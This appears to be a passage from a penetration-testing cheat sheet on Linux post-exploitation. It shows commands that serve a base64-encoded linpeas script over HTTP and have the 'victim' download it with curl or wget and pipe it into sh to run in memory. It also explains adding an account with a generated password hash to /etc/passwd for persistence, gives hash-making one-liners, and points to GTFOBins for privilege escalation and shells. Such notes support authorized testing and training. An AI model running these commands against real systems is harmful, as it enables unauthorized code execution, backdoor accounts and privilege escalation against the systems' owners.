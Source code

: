 #### Using a base64-encoded payload

```bash
#convert to base64
base64 -w0 linpeas.sh > lp.enc 

#Start HTTP server
sudo python -m SimpleHTTPServer 80

#Download from the victim, decode from base64, run in-memory
curl 10.10.10.10/lp.enc | base64 -d | sh
#or
wget -O - http://10.10.10.10/lp.enc | base64 -d | sh
```

## /etc/passwd

### Add Account & Password to /etc/passwd

* Generate password with `openssl passwd -1 -salt $username $password`&#x20;
* Add to `/etc/passwd` file which is in the format:&#x20;
  * `$UserName:$generated_password:$UID:$GUID:$comment:$home_dir:$default_shell`&#x20;
  * (assumes you have write privilege to this file!).&#x20;
* Can be used for persistence.

#### Create SHA512 password hash for import into passwd file:

```python
python -c "import crypt, getpass, pwd; \
             print(crypt.crypt('password', '\$6\$saltsalt\$'))"
             
-or-
python -c 'import crypt,getpass; \
             print(crypt.crypt(getpass.getpass(), crypt.mksalt(crypt.METHOD_SHA512)))'

-or-
python -c 'import crypt; \
             print(crypt.crypt("somesecret", crypt.mksalt(crypt.METHOD_SHA512)))'
```

#### Create SHA1 password hash:&#x20;

```bash
sha1pass $mypassword
```

## GTFOBins

[https://gtfobins.github.io/](https://gtfobins.github.io/)

> GTFOBins is a curated list of Unix binaries that can be exploited by an attacker to bypass local security restrictions. The project collects legitimate functions of Unix binaries that can be abused to break out restricted shells, escalate or maintain elevated privileges, transfer files, spawn bind and reverse shells, and facilitate the other post-exploitation tasks.
